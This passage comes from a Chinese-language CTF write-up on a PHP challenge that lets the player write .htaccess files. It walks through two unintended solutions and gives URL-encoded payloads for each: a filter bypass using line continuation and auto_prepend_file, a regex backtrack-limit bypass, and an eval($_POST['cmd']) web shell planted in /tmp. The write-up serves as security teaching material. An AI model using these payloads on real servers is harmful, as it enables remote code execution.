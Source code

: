 接着我们便可以来使用一句话了来读取flag了，需要注意的是题目源码说明会删除当前目录下非index.php的所有文件，所以我们再使用一句话之前必须得传一遍第二个.htaccess文件的内容(.htaccess中的设置会在PHP文件执行之前被加载，所以不用担心删除导致.htaccess在本次访问时不生效)。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711142008436-454473122.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711142008436-454473122.png)

**非预期解1**

 在.htaccess中#表示注释符号的意思，所以我们可以将一句话放在#后面，再让PHP文件包含.htaccess，此外再使用符号"\"换行的功能绕过对关键词file的检测，再让我们每次访问时均生成这样一个.htaccess，这样就能得到一个可以用在蚁剑上的一句话了。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711144729173-1750041193.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711144729173-1750041193.png)

 

URL编码后：

php_value auto_prepend_fi/%0d%0ale ".htaccess"%0d%0a#<?php eval($_POST[cmd]);?>/

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711150822434-306899981.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711150822434-306899981.png)

 

 [![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711151003081-1482018499.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711151003081-1482018499.png)

**非预期解2**

采用了关于PHP正则回溯绕过的知识，具体内容可以参考下博主写的另外一篇博客：[关于PHP正则回溯次数绕过 - Article_kelp - 博客园 (cnblogs.com)](https://www.cnblogs.com/Article-kelp/p/15013384.html)

源码中有一段使用了正则匹配过滤，恰好这段正则匹配设置好后肯定会触发回溯：

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210715112913835-1035551075.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210715112913835-1035551075.png)

 

先在.htaccess把正则限制的配置改到最低：

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210715112944655-2090635575.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210715112944655-2090635575.png)

 

 URL编码后的的整体payload为：

```
?filename=.htaccess&content=php_value pcre.backtrack_limit 0%0d%0aphp_value pcre.jit 0%0d%0a%23\
```

这个时候我们就能直接上传fl3g.php了，在fl3g.php中写上一句话之后就能为我们所用了。但是要注意传到当前目录是不行的，源码表明了会清除当前目录下非index.php文件，这里选择根目录下的tmp文件上传。

URL编码后的整体payload为：?filename=/tmp/fl3g.php&content=<%3fphp eval($_POST['cmd']);%3f>

再上传一个.htaccess文件，修改设置include_path为/tmp

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210715113858114-961307834.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210715113858114-961307834.png)

URL编码后的整体payload为：?filename=.htaccess&content=php_value include_path "/tmp"%0d%0a%23\
